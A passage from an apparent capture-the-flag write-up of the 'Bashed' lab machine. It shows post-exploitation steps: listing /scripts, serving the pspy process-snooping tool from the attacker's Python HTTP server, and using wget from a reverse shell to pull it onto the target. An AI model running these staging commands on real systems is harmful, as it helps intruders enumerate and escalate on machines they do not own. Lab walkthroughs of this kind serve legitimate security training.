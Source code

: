 ```
scriptmanager@bashed:/scripts$ ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun 15 23:09 test.txt
```

I can verify what is being ran by using a tool `pspy` which is a command line tool designed to snoop on Linux processes. You can get `pspy` by using `wget`on your host from this URL: https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

```
root@kali-[~]cd /opt/pspy 
                                                                                                                                                                                                                                           
root@kali-[/opt/pspy]ls -lah
total 5.6M
drwxr-xr-x  9 root root 4.0K Jun 15 11:35 .
drwxr-xr-x 25 root root 4.0K Jun 15 11:35 ..
drwxr-xr-x  2 root root 4.0K Jun 10 21:49 .circleci
drwxr-xr-x  2 root root 4.0K Jun 10 21:49 cmd
drwxr-xr-x  5 root root 4.0K Jun 10 21:49 docker
-rw-r--r--  1 root root   19 Jun 10 21:49 .dockerignore
drwxr-xr-x  8 root root 4.0K Jun 10 21:49 .git
-rw-r--r--  1 root root  200 Jun 10 21:49 .gitignore
-rw-r--r--  1 root root  870 Jun 10 21:49 Gopkg.lock
-rw-r--r--  1 root root  800 Jun 10 21:49 Gopkg.toml
drwxr-xr-x  2 root root 4.0K Jun 10 21:49 images
drwxr-xr-x  7 root root 4.0K Jun 10 21:49 internal
-rw-r--r--  1 root root  35K Jun 10 21:49 LICENSE
-rw-r--r--  1 root root  211 Jun 10 21:49 main.go
-rw-r--r--  1 root root 3.4K Jun 10 21:49 Makefile
-rwxr-xr-x  1 root root 2.6M Aug 22  2019 pspy32
-rwxr-xr-x  1 root root 3.0M Aug 22  2019 pspy64
-rw-r--r--  1 root root 8.6K Jun 10 21:49 README.md
drwxr-xr-x  4 root root 4.0K Jun 10 21:49 vendor
```

I went ahead and `cd` into the directory I have `pspy` which is `pspy64` and setup a Python simple HTTP server.

```
python -m SimpleHTTPServer 80
```

I go back onto the reverse shell and use `wget` to download the file.

```
wget http://10.10.14.36/pspy64
```

`pspy` is now on the reverse shell.
